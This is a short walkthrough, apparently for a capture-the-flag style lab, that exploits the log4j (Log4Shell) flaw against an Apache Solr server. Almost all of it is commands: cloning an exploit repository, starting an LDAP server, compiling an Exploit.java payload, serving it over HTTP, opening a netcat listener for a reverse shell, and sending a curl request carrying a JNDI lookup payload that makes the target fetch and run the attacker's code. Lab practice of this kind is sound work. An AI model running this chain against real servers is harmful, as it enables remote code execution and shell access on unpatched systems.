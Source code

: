 # log4j Exploit Walkthrough

```
git clone https://github.com/1nf1n17yk1ng/log4j.git 

```

## 1. run log4j.py (This whill install all the nessasary files and start the LDAP server)

```
ifconfig tun0
python3 log4j.py 10.8.227.251

```

![image](https://user-images.githubusercontent.com/66146701/146671807-61ee758c-586b-4d45-9d50-34e7e6c4fa04.png)


## 2. Add attacker IP to Exploit.java file


![2021-12-19_00-52](https://user-images.githubusercontent.com/66146701/146672140-a1e70a73-1c3b-4e1b-a5c5-aeebf4def563.png)


## 3. Compile payload

```
javac Exploit.java -source 8 -target 8

```
![image](https://user-images.githubusercontent.com/66146701/146672281-b07fda17-a0a6-473d-8e15-bc717144d184.png)

## 4. temporary HTTP server

```
python3 -m http.server

```
![image](https://user-images.githubusercontent.com/66146701/146672342-69d18b1e-e605-4906-8ee9-51868033fb6e.png)


## 5. netcat listener

```
nc -lnvp 9999

```

![image](https://user-images.githubusercontent.com/66146701/146672355-780ef25c-b3b6-4e5a-8480-ba091b95a876.png)


## 6. Finally, all that is left to do is trigger the exploit and fire off our JNDI syntax! Note the changes in port number (now referring to our LDAP server) and the resource we retrieve, specifying our exploit:

```
curl 'http://10.10.45.175:8983/solr/admin/cores?foo=$\{jndi:ldap://10.8.227.251:1389/Exploit\}'

```

![image](https://user-images.githubusercontent.com/66146701/146672401-33233c9c-6d91-4923-96b0-fcf3b458e5db.png)


![image](https://user-images.githubusercontent.com/66146701/146672408-cbed5a01-ff4a-4cab-81e5-8704d7674a5d.png)

